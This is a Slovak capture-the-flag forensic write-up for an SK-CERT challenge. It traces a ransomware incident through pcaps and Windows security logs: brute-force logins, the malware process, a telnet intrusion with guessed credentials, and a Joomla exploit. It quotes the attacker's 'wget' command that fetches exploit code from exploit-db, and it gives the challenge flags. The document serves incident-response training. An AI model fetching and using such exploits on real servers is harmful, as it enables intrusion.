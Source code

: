 # SK-CERT - DÁTOVÁ ANALÝZA
> Ozvala sa nám spoločnosť, ktorá dostala hlásenie že majú infikovaný počítač ransomvérom. Ten je špecifický tým že posiela vygenerovaný privátny kľuč na útočníkov server. Prikladáme vám pcap: https://drive.google.com/file/d/13arhVaKNFD_g2qCjuDBrECmpN6MKd4Rw/view?usp=sharing <br/>
Reported Difficulty: 1

:exclamation: *Súbory a zadania z tejto súťaže môžete stiahnuť z https://ulozto.net/file/9qLDe5asaCHJ/*

## 1 Kontrola
> Z dodaného PCAP súboru je potrebné zistiť či naozaj je spoločnosť infikovaná, a pokiaľ áno, tak je potrebné zistiť o aký privátny kľuč sa odosiela. Vlajka je IP adresa serveru na ktorý sa kľuč odoslal.

> Body: 3

Otvoríme `part1.pcap` vo Wireshark a pustime sa do analýzy. Musím uznať, že som to išiel skratkou a skúšal rôzne IP adresy z komunikácie kým som nenatrafil na tu pravú: `194.182.66.53`

```
flag: 194.182.66.53
```

## 2 Windows?
> Zdrojová IP počítača ktorý odosielal privátny kľuč, patrí lokálnemu počítaču s WIndows. Je potrebné zistiť ako prenikli do tohto systému. Prikladáme bezpečnostný log v XML formáte.
https://drive.google.com/file/d/1pmJNCfgnpTCMewCaRioqagYj0_VLcold/view?usp=sharing
Vlajka je dátum a čas prvého prieniku (Formát Y-m-d H:i:s)

> Body: 3

V tomto kroku mame security log v xml, otvoríme ho v Libre Office Calc a pozrieme sa na rôzne eventy čo tam mame. Z počtu rôznych logov vidíme vysoký výskyt 4625 čo je Failed Login.

![](images/2022-03-06-12-36-54.png)

Keď si vyfiltrujeme všetky 4625 eventy vidíme, že všetky majú FailureReason `%%2313` čo je `Unknown user name or bad password. (529)`, targetuser je `victim` a zdrojom je `LinuxServerWebServer`. Vyzerá to na bruteforce login ktorý, ak predpokladáme, že bol enty point, náš flag by mal byť prvý successfull login attempt po poslednom failed:

![](images/2022-03-06-12-55-59.png)

```
flag: 2022-02-22 20:40:08
```

## 3 Ktorý proces?
> Po bruteforce útoku a prihlásení, útočník spustil malvér. Je potrebné zistiť meno procesu. Vlajka je meno procesu (Formát: meno_procesu.format)

> Body: 3

V Libre Office vyfiltrujeme všetky eventy s ProcessName a NewProcessName a hľadáme niečo podozrivé po čase prvého successfull loginu útočníka a o chvíľku to máme:

![](images/2022-03-06-13-10-07.png)

```
flag: YouWillCryRansomware3000.exe
```

## 4 Otvorený test
> Kompromitovaný LinuxServerWebServer je náše testovacie prostredie, aplikácie na serveri sú dostupné iba z lokálnej siete, ale telnet server je otvorený do sveta. Prikladáme Pcap s potrebnými dátami. https://drive.google.com/file/d/1y3pOvG9PDGf7Sg7HtgOGvfjpk6qlVYor/view?usp=sharing
Vlajka je EpochTime prieniku do systému (bez milisekúnd).

> Body: 3

Po otvorení `web.pcap` súboru, poobzeráme sa trošku okolo a uvidíme, že sa niekto snaží prihlásiť cez telnet session:

![](images/2022-03-06-15-43-26.png)

Skúsime hľadať "Login" v paketoch s cieľom nájsť prvý success login, a po niekoľko desiatok klikoch narážame na "Last Login" message ktorá sa objavuje po úspešnom prihlásení sa.

![](images/2022-03-06-15-48-16.png)

Pre istotu pôjdeme ešte zopár paketov vyššie aby sme sa uistili, že to bol útočník ktorý uhádol login a heslo. Po prezretí zopár desiatok paketov predtým vidíme, že útočník uhádol login `bob` a heslo `adminbob` a paket číslo `6262` môžeme poväzovať ako okamih prieniku do systému ktorý ma EpochTime (bez milisekúnd)

![](images/2022-03-06-15-53-52.png)

```
flag: 1645560004
```

## 5 Stará joomla
> Z logov sme zistili že útočník vyhackoval aj našu joomlu na testovacom serveri. Z posledného PCAP súboru je potrebné zistiť aký exploit útočník použil.
Vlajka je url odkial útočník exploit stiahol (Formát: www.stránka_exploitu.doména/cesta_k_exploitu)

> Body: 3

Pri pozeraní zopár ďalších paketov vidíme, že útočník prvé čo spravil je `wget https://www.exploit-db.com/download/47465`, rýchly náhľad do toho url nám potvrdzuje že ide o Joomla expoit.

![](images/2022-03-06-16-16-09.png)

```
flag: www.exploit-db.com/download/47465
```
